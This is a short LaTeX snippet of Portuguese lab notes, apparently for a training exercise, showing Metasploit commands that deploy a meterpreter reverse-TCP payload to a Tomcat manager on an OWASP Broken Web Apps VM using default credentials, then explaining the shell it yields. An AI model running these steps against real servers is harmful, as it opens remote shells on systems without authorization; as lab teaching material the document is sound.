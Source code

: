 \documentclass{article}
\begin{document}
    \begin{verbatim}
        msf > use exploit/multi/http/tomcat_mgr_deploy
        msf exploit(tomcat_mgr_deploy) > set RHOSTS x.x.x.x (IP da máquina Owasp)
        msf exploit(tomcat_mgr_deploy) > set HttpUsername root
        msf exploit(tomcat_mgr_deploy) > set HttpPassword owaspbwa
        msf exploit(tomcat_mgr_deploy) > set RPORT 8080
        msf exploit(tomcat_mgr_deploy) > show options
        msf exploit(tomcat_mgr_deploy) > show payloads
        msf exploit(tomcat_mgr_deploy) > set payload java/meterpreter/reverse_tcp
        msf exploit(tomcat_mgr_deploy) > show options
        msf exploit(tomcat_mgr_deploy) > set LHOST 10.1.2.7 -> colocar IP da Kali
        msf exploit(tomcat_mgr_deploy) > exploit
    \end{verbatim}

    Nesse prompt (meterpreter) podem ser executados comandos. Ao conseguir
    chegar no prompt do meterpreter você está com um tipo de shell na máquina
    alvo. Digite help no prompt do meterpreter para listar os comandos
    possíveis que poderão ser executados.
\end{document}
